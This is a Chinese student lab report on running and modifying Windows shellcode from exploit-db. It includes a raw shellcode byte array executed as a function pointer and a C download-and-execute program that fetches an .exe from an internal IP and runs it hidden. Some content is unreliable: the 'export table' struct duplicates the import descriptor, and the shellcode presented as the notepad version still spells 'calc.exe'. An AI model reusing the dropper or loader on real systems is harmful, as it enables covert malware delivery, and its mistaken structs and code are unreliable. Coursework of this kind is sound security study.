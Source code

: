 # 第一次实验

## 实验环境

* visual studio 2010(win10)
* Kali

## 实验要求
 
  + [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中的shellcode成功运行
  + [x] 汇编源码编译通过并成功dump
  + [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
  + [x] 修改shellcode功能为记事本程序notepad.exe
  + [ ] （可选）修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

## 实验过程
****
### step1 在vs里成功运行原shellcode中的.c文件
* 运行结果展示

![结果展示](images/calc.jpg)

****

### step2 汇编源码编译通过并成功dump
* 在自己虚拟机（Kali）中编译汇编源码：
  
    `sudo vim source.asm`

    将链接中的编译源码导入后执行以下代码即可得到code[]
    
    `nasm -f win32 source.asm -o source.o`

    `for i in $(objdump -D source.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
* 运行结果展示

![运行结果](images/source_asm.png)

****

### step3 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理

* windows PEB结构体数据结构
```C++
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged; //被调试状态
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```
* PE导入表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* PE导出表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* 参照[博客](https://www.freebuf.com/articles/system/93983.html)逐步学习了解shellcode原理




****

### step4 修改shellcode功能为记事本程序notepad.exe
**1-->修改编译源码相应位置，在Linux虚拟机中运行**
* kali中修改编译源码的位置
  
![修改代码](images/change.png)

* 修改后执行结果展示

![运行结果](images/hello_asm.png)

**2-->修改原.c文件code[]数组，并成功运行**
  
  * 由1得到code[],进而在vs中修改后的.c文件
```C++
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    func = int( code);
    (int)(*func)();
}
```
* 运行结果展示
  
![运行结果](images/notepad.jpg)


### step5 修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

* C语言实现方式
```C++
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
int main()
{
HMODULE hurlmod=LoadLibrary("urlmon.dll");
MY_DOWNLOAD_PROC function_ptr=
(MY_DOWNLOAD_PROC)GetProcAddress(hurlmod,"URLDownloadToFileA");
function_ptr(NULL, "http://10.196.7.115/ov.exe", "a.exe", NULL, NULL);
WinExec("a.exe", SW_HIDE);
return 0;
} 
```
**汇编源码编写思路**
*（编码实现难度有点大，函数调用和传参方面存在问题，在这先写一下自己读相关[ 博客 ](https://zhidao.baidu.com/question/1735310477657776627.html)后整理的实现思路~）*

* step1.动态获得`kernel32.dll`地址 
  
利用PEB结构来获得kerner32.dll的地址，具体通过寄存器指向TEB结构；在TEB+0x30地方指向PEB结构；在PEB+0x0C地方指向PEB_LDR_DATA结构，在PEB_LDR_DATA+0x1C地方是一些动态连接库的地址，第二个就是kernel32.dll地址。


* step2.获取`GetProcAddress`函数的地址
  
GetProcAddress函数是从系统文件kernel32.dll中导出的，kernel32.dll导出表中有GetProcAddress函数的地址。

* step3.获取`LoadLibrary`的地址并查询相关函数地址
  
通过构造查找到LoadLibrary地址，并调用LoadLibrary来加载`urlmon.dll`，进而查找动态库urlmon.dll内置函数`URLDownLoadToFileA`的地址。同样可以通过GetProcAddress获取`WinExec()`及`ExitProcess()`地址。

* step4.向各类函数传递参数，实现调用。